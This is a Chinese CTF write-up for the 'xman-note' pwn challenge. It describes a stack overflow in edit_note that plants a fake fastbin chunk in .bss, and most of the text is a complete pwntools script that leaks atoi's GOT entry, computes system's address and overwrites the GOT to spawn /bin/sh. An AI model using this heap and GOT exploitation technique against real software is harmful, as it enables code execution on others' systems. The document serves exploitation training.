





# 标题

> xman-note

## **原理**

利用栈溢出 fake chunk ，修改got的值。

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**
审计一下代码，在edit_note中 存在一个栈溢出：



思路：

- 在输入name的时候，在bss段构造fake chunk。




- 在dest中写入内容，并覆盖到 v7，然后再释放v7，这样 就将 fake chunk放入fastbin中。



- malloc chunk，并将 atoi 的got_addr写入chunk中，同时也覆盖掉了ptr[0]。通过show_note的功能，得到got_addr的值。



- 得到got_addr的值之后，就可以计算出libc的基地址，进而计算出system的地址。

- 触发atoi函数，输入 /bin/sh




完整exp：

```
from pwn import *

p=process('./note')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

def newnote(length,x):
    p.recvuntil('--->>')
    p.sendline('1')
    p.recvuntil(':')
    p.sendline(str(length))
    p.recvuntil(':')
    p.sendline(x)


def editnote_append(id,x):
    p.recvuntil('--->>')
    p.sendline('3')
    p.recvuntil('id')
    p.sendline(str(id))
    p.recvuntil('append')
    p.sendline('2')
    p.recvuntil(':')
    p.sendline(x)

def editnote_overwrite(id,x):
    p.recvuntil('--->>')
    p.sendline('3')
    p.recvuntil('id')
    p.sendline(str(id))
    p.recvuntil('append')
    p.sendline('1')
    p.recvuntil(':')
    p.sendline(x)

def shownote(id):
    p.recvuntil('--->>')
    p.sendline('2')
    p.recvuntil('id')
    p.sendline(str(id))

#fake chunk
p.recvuntil('name:')
p.send('a'*0x30+p64(0)+p64(0x70))

p.recvuntil('address:')
p.sendline(p64(0)+p64(0x70))

#溢出
newnote(128,94*'a')
editnote_append(0,'b'*34+p64(0x602120))#ptr_addr

atoi_got = 0x602088
newnote(0x60,p64(atoi_got))

shownote(0)
p.recvuntil('is ')
atoi_addr = u64(p.recvline().strip('\n').ljust(8, '\x00'))
atoi_libc=libc.symbols['atoi']
sys_libc=libc.symbols['system']
system=atoi_addr-atoi_libc+sys_libc
print "system="+hex(system)

#修改got
editnote_overwrite(0,p64(system))

#触发
p.recvuntil('--->>')
p.sendline('/bin/sh')
p.interactive()

```

## **参考阅读**

